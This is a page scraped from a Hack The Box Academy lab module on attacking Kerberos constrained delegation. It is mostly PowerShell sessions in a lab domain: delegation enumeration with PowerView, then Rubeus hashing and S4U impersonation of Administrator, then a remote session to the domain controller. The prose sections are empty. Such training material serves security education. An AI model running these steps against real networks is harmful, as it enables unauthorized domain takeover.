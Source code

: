 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/176/section/1786
// Platform Version: V1
// Module ID: 176
// Module Name: Windows Attacks & Defense
// Module Difficulty: Medium
// Section ID: 1786
// Section Title: Kerberos Constrained Delegation
// Page Title: Hack The Box - Academy
// Page Number: 11
-->

# Kerberos Constrained Delegation

**Module Name:** Windows Attacks & Defense **Page Number:** 11

#### 

#### WINDOWS ATTACKS & DEFENSE

# Kerberos Constrained Delegation

## Description

## Attack

``` powershell-session
PS C:\Users\bob\Downloads> Get-NetUser -TrustedToAuth

logoncount                    : 23
badpasswordtime               : 12/31/1601 4:00:00 PM
distinguishedname             : CN=web service,CN=Users,DC=eagle,DC=local
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : web service
lastlogontimestamp            : 10/13/2022 2:12:22 PM
userprincipalname             : webservice@eagle.local
name                          : web service
objectsid                     : S-1-5-21-1518138621-4282902758-752445584-2110
samaccountname                : webservice
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 10/13/2022 9:53:09 PM
instancetype                  : 4
usncreated                    : 135866
objectguid                    : b89f0cea-4c1a-4e92-ac42-f70b5ec432ff
lastlogoff                    : 1/1/1600 12:00:00 AM
msds-allowedtodelegateto      : {http/DC1.eagle.local/eagle.local, http/DC1.eagle.local, http/DC1,
                                http/DC1.eagle.local/EAGLE...}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=eagle,DC=local
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {cvs/dc1.eagle.local, cvs/dc1}
givenname                     : web service
lastlogon                     : 10/14/2022 2:31:39 PM
badpwdcount                   : 0
cn                            : web service
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 10/13/2022 8:32:35 PM
primarygroupid                : 513
pwdlastset                    : 10/13/2022 10:36:04 PM
msds-supportedencryptiontypes : 0
usnchanged                    : 143463
```

![https://academy.hackthebox.com/storage/modules/176/A9/ConsDelegation.png](https://academy.hackthebox.com/storage/modules/176/A9/ConsDelegation.png)

``` powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe hash /password:Slavi123

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Calculate Password Hash(es)

[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

![https://academy.hackthebox.com/storage/modules/176/A9/phash.png](https://academy.hackthebox.com/storage/modules/176/A9/phash.png)

``` powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: S4U

[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[*] Building AS-REQ (w/ preauth) for: 'eagle.local\webservice'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFiDCCBYSgAwIBBaEDAgEWooIEnjCCBJphggSWMIIEkqADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBFgwggRUoAMCARKhAwIBAqKCBEYEggRCI1ghAg72
      moqMS1skuua6aCpknKibZJ6VEsXfyTZgO5IKRDnYHnTJT6hwywSoXpcxbFDDlakB56re10E6f6H9u5Aq
	  ...
	  ...
	  ...
[+] Ticket successfully imported!
```

![https://academy.hackthebox.com/storage/modules/176/A9/getTicket.png](https://academy.hackthebox.com/storage/modules/176/A9/getTicket.png)

``` powershell-session
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x88721

Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL
        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 10/13/2022 14:56:07 (local)
        End Time:   10/14/2022 0:56:07 (local)
        Renew Time: 10/20/2022 14:56:07 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

![https://academy.hackthebox.com/storage/modules/176/A9/klistdelegated.png](https://academy.hackthebox.com/storage/modules/176/A9/klistdelegated.png)

``` powershell-session
PS C:\Users\bob\Downloads> Enter-PSSession dc1
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents>
```

![https://academy.hackthebox.com/storage/modules/176/A9/pssession.png](https://academy.hackthebox.com/storage/modules/176/A9/pssession.png)

## Prevention

## Detection

![https://academy.hackthebox.com/storage/modules/176/A9/detect1.png](https://academy.hackthebox.com/storage/modules/176/A9/detect1.png)

# 

# 

#### Questions

####